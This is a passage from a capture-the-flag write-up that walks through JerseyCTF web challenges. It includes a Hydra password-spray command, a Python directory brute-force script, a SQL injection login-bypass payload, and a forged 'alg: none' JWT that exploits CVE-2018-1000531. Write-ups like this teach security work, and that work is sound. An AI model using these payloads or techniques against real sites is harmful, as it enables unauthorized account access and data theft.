163.112.88.13 - - [28/Dec/2021:17:28:48 -0500] "GET /wp-content HTTP/1.0" 200 5011 "https://jerseyctf.com/robots.txt" "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/536.2 (KHTML, like Gecko) Chrome/40.0.884.0 Safari/536.2"
25.175.40.142 - - [28/Dec/2021:17:37:42 -0500] "GET /search/tag/list HTTP/1.0" 200 4974 "http://www.lee-ferguson.biz/tmp/birthday.png" "Mozilla/5.0 (Macintosh; PPC Mac OS X 10_12_8; rv:1.9.2.20) Gecko/2015-09-29 10:23:08 Firefox/3.6.20"
200.89.24.146 - - [28/Dec/2021:19:57:41 -0500] "GET /wp-content HTTP/1.0" 404 4985 "https://murray.info/privacy.html" "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_7_3; rv:1.9.2.20) Gecko/2018-01-11 09:17:52 Firefox/3.8"
76.190.52.148 - - [28/Dec/2021:21:02:26 -0500] "GET /posts/posts/explore HTTP/1.0" 200 4973 "https://www.davisbank.com/tmp/bankrecords.pdf" "Mozilla/5.0 (compatible; MSIE 7.0; Windows NT 6.2; Trident/3.0)"
```

As the filename of the last log indicates sensitive bank record, this is our candidate.

The flag is: `jctf{76.190.52.148}`

--------------------------------------------------------------------------------

### seigwards-secrets - 100 pts <a name="seigwards-secrets"></a>

**Challenge Description:** Seigward has been storing his secrets on his website https://jerseyctf.co for decades. Hasn't failed him yet.

**Solution:** For this one, poking around the website in dev tools gives us the following `.js` file being loaded:


As we can see, Seigward has unfortunately hardcoded his credential check and it's only base64 encoded. Don't be like Seigward. Don't use client-side validation or hard-coded credentials. :)

A quick decode gives us his password, which turns out to be our flag: `jctf{CryptoIsTheKeyToFun}`

--------------------------------------------------------------------------------

### heres-my-password - 250 pts <a name="heres-my-password"></a>

**Challenge Description:** Here's the deal - we have a list of 500 users (males, females, and pets) and one password. Log-in with the proper credentials for the flag.

The password is `lightswitchon_and_offLOL26` and the website is www.jerseyctf.online.

**Solution:** As there are no apparent preventative measures in place on the site, we can attack this via the brute force method.

Our team used the tool `Hydra` to efficiently pass in our userlist and parallelize our login attempts.

Using the command `hydra -L users.txt -p lightswitchon_and_offLOL26 http-post-form://www.jerseyctf.online/:"username=^USER^&password=lightswitchon_and_offLOL26&submit=Login":"Invalid login"
` we see the following with our username, `Wolverine`, which returns in seconds:



Upon successful login to the site, an alert pops up on our screen and we are granted the flag: `jctf{c0NGR@T2_y0U_p@22wORd_SPR@y3D!}`

--------------------------------------------------------------------------------

### buster - 250 pts <a name="buster"></a>

**Challenge Description:** Check out my new site, it has lots of cool pages! https://jerseyctf.xyz

**Hint:** What do HTTP response codes actually mean?

**Solution:** For this challenge, we unfortunately could not use a tool like DirBuster, as the server just returns random HTTP codes. Instead, we will need to script this one ourselves to crawl through the pages and return in the case any contain our flag.

I used the same wordlist as was available on my kali box in tools like ZAP and DirBuster, and wrote the following script to attempt the brute forcing:

```
import requests

dirs = list(open('directory-list-2.3-small.txt', 'r').read().split('\n'))

def isFlag(page):
    page = page.strip()
    r = requests.get('https://jerseyctf.xyz/{}'.format(page))
    if 'jctf' in r.text:
        print('*'*20)
        print("Flag has been found!")
        print("Page contents are the following:")
        print(r.text)
        print('*'*20)
        return True
    return False

for directory in dirs:
    if isFlag(directory):
        exit(0)
```

--------------------------------------------------------------------------------

### flag-vault - 300 pts <a name="flag-vault"></a>

**Challenge Description:** I'm very organized. I even keep all of my flags neatly organized in a database! But, these are my flags! You don't have access to them... or do you? Start here: jerseyctf-flag-vault.chals.io

**Solution:** Prompted with a login option on the site, I tried a basic `admin' OR 1=1-- -` payload on the username with `test` as the password, and on first try, was let in the site. That's convenient. Now that we're logged in as admin, we have a vault where we can search for flags:


Unfortunately, it seems like we weren't fully/truly logged in, or it didn't set the correct cookie, because with each search on the Flag ID prompt, we get logged back out. Reversing the admin/password fields to give `admin` as a user and the injection payload as the password, we log in fine again, but this time appear to stay logged in.

Running a similar injection on this field doesn't work, as there are a ton of fakes sprinkled in the vault to hide what we're looking for. An example is returned here:


However, this is fine, because it proves that it's injectible, and we just need to narrow our search. Using the `LIKE` keyword in SQL, we can search for a pattern similar to our flag with `jctf{` and voila, we have our flag:


--------------------------------------------------------------------------------

### cookie-factory - 400 pts <a name="cookie-factory"></a>

**Challenge Description:** Here at Granny's Old-Fashioned Home-Baked Cookie Factory, we pride ourselves on our cookies AND security being the best in the business. Start here: https://jerseyctf-cookie-factory.chals.io/

**Solution:** For this challenge, we are again greeted by a website that is behind a login page. Using the login of `admin' OR 1=1-- -` for the username with `test` as the password, we are in and can now view a dashboard page.


The dashboard references CVE-2018-1000531, which outlines a vulnerability in JWTDecoder.decode that results in incorrect signature validation of a JWT token.

Looking at our cookie, we can see that it is in fact the JWT in mention after base64 decoding it to the following: `{"typ":"JWT","alg":"HS256"}{"username":"admin' OR 1=1-- -"}8q .Ðk.UÛÑ rk"¨¼.eúåf.ô]æ¥{g.D.@`

I opened up the site in Burp suite to allow for quick edits of the cookie, where I replicated the above login and then sent the `/dashboard` page load to the repeater.

Editing the cookie a bit to match the CVE, we set our `alg` to `none` and the `username` to purely `admin`: `{"typ":"JWT","alg":"none"}{"username":"admin"}8q .Ðk.UÛÑ rk"¨¼.eúåf.ô]æ¥{g.D.@`

I thought that decoding this back to base64 and passing it along would be suffice, but I struggled for a solid 15 minutes on where my formatting was off before I realized that the cookie had `.` delimiters while accidentally highlighting part of my input in CyberChef:


Editing my string to be 3 delineated parts gave me the following: `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIn0=.OHEgLtBrLlXb0SByayKovC5l+uVmLvRd5qV7Zy5ELkA=`, which then gives us a lovely, tasty cookie from Granny:


Flag: `jctf{GEEZ_WHAT_A_TOUGH_COOKIE}`

--------------------------------------------------------------------------------
